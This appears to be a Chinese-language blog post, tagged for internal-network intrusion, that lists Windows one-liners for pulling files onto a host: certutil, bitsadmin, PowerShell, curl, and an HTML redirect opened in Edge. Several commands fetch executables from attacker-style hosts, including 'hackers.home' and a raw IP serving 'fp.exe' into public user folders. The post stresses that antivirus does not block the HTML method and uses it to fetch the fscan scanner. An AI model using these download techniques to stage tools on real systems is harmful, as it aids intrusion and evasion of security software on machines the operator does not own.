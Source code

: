 ```yaml
---
layout:     post
title:      "windows下载方法"
subtitle:   "主要介绍windows的几个常用的下载方法"
date:       2023-01-29 12:00:00
author:     "cainiao3389"
header-img: "img/post-bg-desk.jpg"
catalog: true
tags:
    - 内网
---
```


## certutil

`certutil.exe -urlcache -split -f "https://hackers.home/badcontent.txt" bad.txt`

---

## bitsadmin

`bitsadmin /transfer n http://example.com/file.zip C:\windows\temp\file.zip`

---

## powershell
```cmd
第一种：
echo (new-object System.Net.WebClient).DownloadFile('http://example.com/file.zip','c:\users\public\music\t.exe‘)| powershell -

第二种：
powershell Invoke-WebRequest -Uri http://45.153.130.63/fp.exe -OutFile C:/users/public/videos/fp.exe
```
---

## curl
`curl -o file.zip http://example.com/file.zip`

---

## html下载（常规操作，杀软根本不拦）

**第一步

要先创建一个test.html，内容如下：
```html
<script>
	window.location.href = "https://github.com/shadow1ng/fscan/releases/download/1.8.2/fscan_darwin_arm64";
</script>
```

**第二步

搜索当前有哪些浏览器，edge，firefox，chrome，ie这几个中ie好像不得行，要实现点击操作。

具体用法如下：
`"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" C:\Users\admin\Desktop\test.html`

会直接下载到当前用户的download目录
